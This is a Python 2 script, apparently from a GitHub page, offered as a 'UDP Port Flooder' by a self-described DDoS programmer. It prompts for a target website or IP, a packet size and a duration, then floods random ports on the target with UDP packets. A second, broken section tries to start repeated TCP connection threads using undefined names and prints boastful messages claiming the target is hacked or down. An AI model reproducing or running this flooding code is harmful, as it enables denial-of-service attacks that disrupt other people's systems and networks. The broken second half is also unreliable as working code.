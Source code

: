 


import socket
import random
import os, sys, subprocess,time
import os, sys, json, urllib, re
from time import sleep
os.system("clear")
reload(sys)
sys.setdefaultencoding("utf-8")

# Console colors
W  = '\033[0m'  # white (normal)
R  = '\033[31m' # red
G  = '\033[32m' # green
O  = '\033[33m' # orange
B  = '\033[1m'  # bold
RR = '\033[3m'  # greencolor

def logo():
 print("""
 ###########################
 # Coder by C1Bl4z3webroot #
 # ddos programer          #
 ###########################
  """)


logo()

print("\n\n\n\t\t\033[32m\033[C1Bl4z3webroot")
print("\033[33m\033[1m       UDP Port Flooder By C1Bl4z3webroot \033[31m8h4i\033[0m")

attack = raw_input("\n\n\n\033[1mWebsite or IP ==> \033[33m")

print("\n\n\tEnter Flood Size (1-6000) \n")
package = input("\033[0m\033[1mFlood Size ===>\033[33m ")
print("\n\n\tEnter Time Of Flood (sec) \n")
duration = input("\033[0m\033[1mTime (Sec.) ===>\033[33m ")
durclock = (lambda:0, time.clock)[duration > 0]
duration = (1, (durclock() + duration))[duration > 0]
packet = random._urandom(package)
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
print("C1Bl4z3webroot Attack Started on \033[32m%s \033[33mwith \033[32m%s\033[33m bytes for \033[32m%s\033[33m seconds." % (attack, package, duration))
while True:
        if (durclock() < duration):
                port = random.randint(1, 65535)
                sock.sendto(packet, (attack, port))
        else:
                break
print("\n")
print("\n\033[31m\033[1mFlooding Completed...:D\033[33m\n")
print("C1Bl4z3webroot Attack has completed on \033[32m%s\033[33m for \033[32m%s\033[33m seconds by C1Bl4z3webroot Parixit." % (attack, duration))

def connect(i):
    try:
        sock1 = socket(AF_INET, SOCK_STREAM)
        sock1.connect((host, port))
        sock1.sendto(packet, (ip,port))
        sleep(99)
        sock1.close
    except:
    	print(" Your Target Have Been Hacked!!!")

n = 0


while 1:
    try:
        start_new_thread(connect, (n,))
    except:
        print "\n\t\t\033[33mYour Target Is Down!!!"
    print "\033[32m<+> C1Bl4z3webroot!! C1Bl4z3webroot!! C1Bl4z3webroot!! C1Bl4z3webroot!! C1Bl4z3webroot!!"
    sleep(0.1)
